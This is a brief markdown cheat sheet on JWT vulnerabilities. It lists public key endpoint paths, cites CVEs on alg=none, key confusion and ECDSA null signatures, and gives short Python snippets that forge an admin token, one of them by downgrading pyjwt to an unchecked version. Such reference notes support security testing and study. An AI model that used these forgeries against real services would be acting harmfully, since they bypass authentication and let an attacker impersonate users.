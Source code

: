 ```yaml
---
title: "JSON Web Token"
description: "JWT tips"
date: 24/11/2019
categories:
 - Web
tags:
 - JWT
 - web
 - authentication
---
```


## Finding Public Keys

Some common locations for public keys are:
```
/api/keys
/api/v1/keys
/.well-known/jwks.json
/openid/connect/jwks.json
/jwks.json
```

## Vulnerabilities

There is know vulnerabilities on JWT:

- [CVE-2015-2951](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-2951): The alg=none signature-bypass vulnerability in `JWT.php`
- [CVE-2016-10555](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10555): The RS/HS256 public key mismatch vulnerability because the server does not enforce "algorithm"
- [CVE-2018-0114](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-0114): It's possible to re-sign a token using a key that is embedded within the token
- [CVE-2022-21449](https://neilmadden.blog/2022/04/19/psychic-signatures-in-java/) : bypass signature checks using ECDSA signatures with point (0, 0)

PoC from [DataDog/security-labs-pocs](https://github.com/DataDog/security-labs-pocs/tree/main/proof-of-concept-exploits/jwt-null-signature-vulnerable-app):

```python
payload = 'eyJz....'
jwt = f'eyJ0eXAiOiJKV1QiLCJhbGciOiJFUzI1NiJ9.{payload}.MAYCAQACAQA'
```


## JWT Toolkit

```bash
jwt_tool.py is a toolkit for validating, forging and cracking JWTs (JSON Web Tokens).
```

[https://github.com/ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)


## Exploit in Python

On some vulnerable implementation, it's possible to replace the JWT algorithm
from `RS256` to `HS256`. The vulnerable library use the public key as a secret.

```python
import jwt
key = open('public_key.pem', 'r').read()
jwt.encode({"username":"admin"}, key=key, algorithm='HS256')
```

You need to install the `pyjwt` package in a specific version. In the last
versions, the library check the key is a x509 certificate:

```bash
  File ".../lib/python3.6/site-packages/jwt/algorithms.py", line 151, in prepare_key
    'The specified key is an asymmetric key or x509 certificate and'
jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret.
```

The version `0.4.3` has not this check:

```bash
pip install pyjwt==0.4.3
```
